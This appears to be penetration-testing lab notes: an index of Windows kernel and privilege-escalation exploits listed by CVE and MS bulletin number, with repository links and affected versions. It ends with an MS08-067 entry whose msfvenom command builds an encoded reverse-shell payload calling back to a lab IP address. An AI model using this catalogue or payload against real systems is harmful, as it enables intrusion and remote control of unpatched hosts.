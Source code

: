 ## Exploits -

https://github.com/SecWiki/windows-kernel-exploits 
https://github.com/abatchy17/WindowsExploits

##### #Security Bulletin&nbsp;&nbsp;&nbsp;#KB &nbsp;&nbsp;&nbsp;&nbsp;#Description&nbsp;&nbsp;&nbsp;&nbsp;#Operating System  
- [CVE-2020-0787](https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION) [Windows Background Intelligent Transfer Service Elevation of Privilege Vulnerability] (Windows 7/8/10, 2008/2012/2016/2019)
- [CVE-2020-0796](https://github.com/danigargu/CVE-2020-0796) [A remote code execution vulnerability exists in the way that the Microsoft Server Message Block 3.1.1 (SMBv3) protocol handles certain requests, aka 'Windows SMBv3 Client/Server Remote Code Execution Vulnerability'] (Windows 1903/1909)
- [CVE-2019-1458](https://github.com/unamer/CVE-2019-1458) [An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory] (Windows 7/8/10/2008/2012/2016)
- [CVE-2019-0803](https://github.com/ExpLife0011/CVE-2019-0803) [An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory] (Windows 7/8/10/2008/2012/2016/2019)
- [CVE-2018-8639](https://github.com/ze0r/CVE-2018-8639-exp) [An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory] (Windows 7/8/10/2008/2012/2016)
- [CVE-2018-1038](https://gist.github.com/xpn/3792ec34d712425a5c47caf5677de5fe) [Windows Kernel Elevation of Privilege Vulnerability]  (Windows 7 SP1/Windows Server 2008 R2 SP1)
- [CVE-2018-0743](https://github.com/saaramar/execve_exploit) [Windows Subsystem for Linux Elevation of Privilege Vulnerability]  (Windows 10 version 1703/Windows 10 version 1709/Windows Server version 1709)
- [CVE-2018-8453](https://github.com/ze0r/cve-2018-8453-exp) [An elevation of privilege vulnerability in Windows Win32k component]  (>= windows 8.1)
- [CVE-2018-8440](https://github.com/sourceincite/CVE-2018-8440) [Windows ALPC Elevation of Privilege Vulnerability]  (windows 7/8.1/10/2008/2012/2016)
- [MS17-017](./MS17-017) 　[KB4013081]　　[GDI Palette Objects Local Privilege Escalation]　　(windows 7/8)
- [CVE-2017-8464](./CVE-2017-8464) 　[LNK Remote Code Execution Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2017-0213](./CVE-2017-0213) 　[Windows COM Elevation of Privilege Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2018-0833](./CVE-2018-0833)   [SMBv3 Null Pointer Dereference Denial of Service]  (Windows 8.1/Server 2012 R2)
- [CVE-2018-8120](./CVE-2018-8120)   [Win32k Elevation of Privilege Vulnerability]  (Windows 7 SP1/2008 SP2,2008 R2 SP1)
- [MS17-010](./MS17-010) 　[KB4013389]　　[Windows Kernel Mode Drivers]　　(windows 7/2008/2003/XP)
- [MS16-135](./MS16-135) 　[KB3199135]　　[Windows Kernel Mode Drivers]　　(2016)
- [MS16-111](./MS16-111) 　[KB3186973]　　[kernel api]　　(Windows 10 10586 (32/64)/8.1)
- [MS16-098](./MS16-098) 　[KB3178466]　　[Kernel Driver]　　(Win 8.1)
- [MS16-075](./MS16-075) 　[KB3164038]　　[Hot Potato]　　(2003/2008/7/8/2012)
- [MS16-034](./MS16-034) 　[KB3143145]　　[Kernel Driver]　　(2008/7/8/10/2012)
- [MS16-032](./MS16-032) 　[KB3143141]　　[Secondary Logon Handle]　　(2008/7/8/10/2012)
- [MS16-016](./MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](./MS16-014) 　[K3134228]　　[remote code execution]　　(2008/Vista/7)
- [MS15-097](./MS15-097) 　[KB3089656]　　[remote code execution]　　(win8.1/2012)
- [MS15-076](./MS15-076) 　[KB3067505]　　[RPC]　　(2003/2008/7/8/2012)
- [MS15-077](./MS15-077) 　[KB3077657]　　[ATM]　　(XP/Vista/Win7/Win8/2000/2003/2008/2012)
- [MS15-061](./MS15-061) 　[KB3057839]　　[Kernel Driver]　　(2003/2008/7/8/2012)
- [MS15-051](./MS15-051) 　[KB3057191]　　[Windows Kernel Mode Drivers]　　(2003/2008/7/8/2012)
- [MS15-015](./MS15-015) 　[KB3031432]　　[Kernel Driver]　　(Win7/8/8.1/2012/RT/2012 R2/2008 R2)
- [MS15-010](./MS15-010) 　[KB3036220]　　[Kernel Driver]　　(2003/2008/7/8)
- [MS15-001](./MS15-001) 　[KB3023266]　　[Kernel Driver]　　(2008/2012/7/8)
- [MS14-070](./MS14-070) 　[KB2989935]　　[Kernel Driver]　　(2003)
- [MS14-068](./MS14-068) 　[KB3011780]　　[Domain Privilege Escalation]　　(2003/2008/2012/7/8)
- [MS14-058](./MS14-058) 　[KB3000061]　　[Win32k.sys]　　(2003/2008/2012/7/8)
- [MS14-066](./MS14-066) 　[KB2992611]　　[Windows Schannel Allowing remote code execution] (VistaSP2/7 SP1/8/Windows 8.1/2003 SP2/2008 SP2/2008 R2 SP1/2012/2012 R2/Windows RT/Windows RT 8.1)
- [MS14-040](./MS14-040) 　[KB2975684]　　[AFD Driver]　　(2003/2008/2012/7/8)
- [MS14-002](./MS14-002) 　[KB2914368]　　[NDProxy]　　(2003/XP)  
- [MS13-053](./MS13-053) 　[KB2850851]　　[win32k.sys]　　(XP/Vista/2003/2008/win 7)  
- [MS13-046](./MS13-046) 　[KB2840221]　　[dxgkrnl.sys]　　(Vista/2003/2008/2012/7)  
- [MS13-005](./MS13-005) 　[KB2778930]　　[Kernel Mode Driver]　　(2003/2008/2012/win7/8)  
- [MS12-042](./MS12-042) 　[KB2972621]　　[Service Bus]　　(2008/2012/win7)
- [MS12-020](./MS12-020) 　[KB2671387]　　[RDP]　　(2003/2008/7/XP)
- [MS11-080](./MS11-080) 　[KB2592799]　　[AFD.sys]　　(2003/XP)
- [MS11-062](./MS11-062) 　[KB2566454]　　[NDISTAPI]　　(2003/XP)
- [MS11-046](./MS11-046) 　[KB2503665]　　[AFD.sys]　　(2003/2008/7/XP)
- [MS11-011](./MS11-011) 　[KB2393802]　　[kernel Driver]　　(2003/2008/7/XP/Vista)
- [MS10-092](./MS10-092) 　[KB2305420]　　[Task Scheduler]　　(2008/7)  
- [MS10-065](./MS10-065) 　[KB2267960]　　[FastCGI]　　(IIS 5.1, 6.0, 7.0, and 7.5)  
- [MS10-059](./MS10-059) 　[KB982799]　　 [ACL-Churraskito]　　(2008/7/Vista)  
- [MS10-048](./MS10-048) 　[KB2160329]　　[win32k.sys]　　(XP SP2 & SP3/2003 SP2/Vista SP1 & SP2/2008 Gold & SP2 & R2/Win7)  
- [MS10-015](./MS10-015) 　[KB977165]　　 [KiTrap0D]　　(2003/2008/7/XP)  
- [MS10-012](./MS10-012) 　[KB971468]　　[SMB Client Trans2 stack overflow]　　(Windows 7/2008R2)  
- [MS09-050](./MS09-050) 　[KB975517]　　 [Remote Code Execution]　　(2008/Vista)  
- [MS09-020](./MS09-020) 　[KB970483]　　 [IIS 6.0]　　(IIS 5.1 and 6.0)  
- [MS09-012](./MS09-012) 　[KB959454]　　 [Chimichurri]　　(Vista/win7/2008/Vista)  
- [MS08-068](./MS08-068) 　[KB957097]　　 [Remote Code Execution]　　(2000/XP)  
- [MS08-067](./MS08-067) 　[KB958644]　　 [Remote Code Execution]　　(Windows 2000/XP/Server 2003/Vista/Server 2008)  
- [MS08-066](./MS08-066) 　[KB956803]　　 [AFD.sys]　　(Windows 2000/XP/Server 2003)  
- [MS08-025](./MS08-025) 　[KB941693]　　 [Win32.sys]　　(XP/2003/2008/Vista)  
- [MS06-040](./MS06-040) 　[KB921883]　　 [Remote Code Execution]　　(2003/xp/2000)  
- [MS05-039](./MS05-039) 　[KB899588]　　 [PnP Service]　　(Win 9X/ME/NT/2000/XP/2003)  
- [MS03-026](./MS03-026) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)  


## Exploits 

### 32-bit 
##### MS08-067 
````
Windows XP SP0/SP1 Universal\n' 
Windows 2000 Universal
MS08-067 - https://www.exploit-db.com/exploits/40279 
Update payload with adn maintain length -> msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.119.155 LPORT=4444 EXITFUNC=thread -e x86/shikata\_ga\_nai -f c -n 29 > payload1.txt
Check .5 Lab machine folder for modified exploit
````
